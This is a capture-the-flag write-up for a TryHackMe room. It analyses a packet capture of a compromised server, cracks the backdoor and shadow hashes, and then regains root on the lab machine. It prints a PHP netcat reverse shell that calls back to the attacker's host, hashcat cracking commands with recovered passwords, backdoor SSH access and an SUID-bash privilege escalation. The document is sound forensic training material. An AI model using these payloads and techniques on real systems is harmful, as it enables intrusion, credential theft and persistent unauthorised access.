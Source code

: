 # Overpass 2: Hacked

The flags are structured to basically walk us through this room.

## Forensics: Analyze the PCAP

I've not actually used Wireshark outside of the TryHackMe: Wireshark 101 "room" (and a few short digressions in other rooms), so I'm honestly a little worried about my abilities here…

Filtering the PCAP file for HTTP requests reveals a single POST from 192.168.179.145 to http://192.168.170.159/development/upload.php. A subsequent request from 192.168.179.145 pulls the directory listing of /development/uploads/, and then GETs /development/uploads/payload.php. This suggests that 192.168.179.145 is the "attacker" and 192.168.179.145 is the target system.

FLAG 1: What was the URL of the page they used to upload a reverse shell? - /development/

We can save off this POST request to get at the uploaded payload.php file, which turns out to have the contents:

```php
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

FLAG 2: What payload did the attacker use to gain access? - `<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`

This is popping a simple reverse shell through netcat that connects back to 192.168.170.145:4242, which would seem to confirm that this was the machine used by the attacker.

This means that penetration occurs when this file is requested in packet 27.

Looking at subsequent TCP packets, we can see what the attacker typed in the packets going from 192.168.170.145 → 192.168.170.159, and the responses in the packets going from 192.168.170.159 → 192.168.170.145. Requests/Responses coming through netcat use the TCP PSH flag, so we can filter by `tcp.port == 4242 and tcp.flags.push` to zoom in on this conversation.

The attacker eventually issues `su james` to elevate privileges  (packet 71), and a few packets down we can see `james`'s password.

FLAG 3: What password did the attacker use to privesc? - `whenevernoteartinstant`

In packet 112 the attacker cats /etc/shadow, and we get a full dump in packet 114. They then issue `git clone https://github.com/NinjaJc01/ssh-backdoor`, generate an SSH private key, and switch to the included `backdoor` binary, at which point we lose the thread.

FLAG 4: How did the attacker establish persistence? - https://github.com/NinjaJc01/ssh-backdoor

Returning to packet 114, we can use Copy > Copy Bytes as Printable Text to pull the contents of /etc/shadow (+ a little garbage).  After a little cleanup, we have 5 users with passwords (including `james`, which we know already).

We extract the hashes and then throw Hashcat at this using the suggested "fasttrack" wordlist.

```bash
hashcat -m 1800 \
        -O hashes.txt /usr/share/wordlists/fasttrack.txt
```

Four out of the five passwords turn out to be crackable:

```
paradox:secuirty3
szymex:abcd123
bee:secret12
muirland:1qaz2wsx
```

This ironically *doesn't* include `james`!

FLAG 5: How many of the system passwords were crackable? - 4

* [TryHackMe: Wireshark 101](https://tryhackme.com/room/wireshark)
* [Using "netcat"](../Notes/Using%20%22netcat%22.md)

## Research: Analyze the Code

It turns out that https://github.com/NinjaJc01/ssh-backdoor is a real thing, with the code itself living in https://github.com/NinjaJc01/ssh-backdoor/blob/master/main.go.

FLAG 6: What's the default hash for the backdoor? - `bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3`

FLAG 7: What's the hardcoded salt for the backdoor? - `1c362db832f3f864c8c2fe05f2002a05`

The hashPassword() function here takes the SHA-512 hash of the provided password + the salt. The default has is overridden using the `-a` flag. We can see that the attacker used this flag when the `backdoor` was called in packet 3479.

```bash
./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```

FLAG 8: What was the hash that the attacker used? - `6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`

We can use Hashcat to again crack this.

```bash
hashcat \
	-m 1710 \
	-O 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05 \
	   ~/.local/share/red-team/wordlists/rockyou.txt
```

FLAG 9: What's the password? - `november16`

* [Using Hashcat](../Notes/Using%20Hashcat.md)
* [ssh-backdoor / main.go](https://github.com/NinjaJc01/ssh-backdoor/blob/master/main.go)

## Attack: Get Back In!

The last bit of this CTF uses a server, which for this run is at 10.10.114.161. Just visiting that page gives us our first flag.

FLAG 10: What message did the attacker leave as a heading when they defaced the website? - H4ck3d by CooctusClan

We'll get back in using the backdoor that the attacker set up. From the backdoor code we know that the SSH server is running on port 2222, and there don't seem to be any user checks. So…

```bash
env -u SSH_AUTH_SOCK -u SSH_AGENT_PID \
	ssh -p 2222 user@10.10.114.161
```

…lets us in as expected (with the password of `november16`).

The user flag is in /home/james/user.txt.

FLAG 11: What's the user flag? - `thm{d119b4fa8c497ddb0525f7ad200e6567}`

Unfortunately, none of the passwords we cracked earlier work anymore. After checking a couple of possible exploits to get around this, I decided just to see what SUID binaries were on the system (figuring that I'd check them against GTFOBins).

```bash
find / -type f -perm -u+s -exec ls -l "{}" \;
```

This turned up an unusual file - /home/james/.suid_bash.  Could this be… an SUID copy of Bash? Indeed it is!

```bash
/home/james/.suid_bash -p # Root shell!
```

The root flag is then in /root/root.txt.

FLAG 12: What's the root flag? - `thm{d53b2684f169360bb9606c333873144d}`

* [Exploiting Bash](../Notes/Exploiting%20Bash.md)
* [GTFOBins](https://gtfobins.github.io/)

ELAPSED TIME: 1 h 43 min

## References

* [TryHackMe: Overpass 2: Hacked](https://tryhackme.com/room/overpass2hacked)
